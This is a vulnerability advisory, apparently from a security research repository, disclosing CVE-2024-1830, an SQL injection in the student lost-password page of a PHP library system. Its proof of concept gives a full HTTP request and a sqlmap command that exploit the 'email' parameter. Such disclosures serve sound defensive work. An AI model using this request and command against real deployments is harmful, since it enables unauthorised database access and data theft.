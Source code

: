 # Library System In PHP - SQL Injection (Student Lostpass)

### CVE Assigned:
**[CVE-2024-1830](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1830)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-1830) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-1830)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/student/lost-password.php

> The parameters `email` within student lost-password are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.5Library-System-In-PHP-Sqli-student_lostpass_email.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `studentlostpass.txt`:

```
POST /Lms/Source/librarian/user/student/lost-password.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 70
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

email=1&reset-password=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r studentlostpass.txt --batch --dbms MYSQL --is-dba -p email
```

## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.

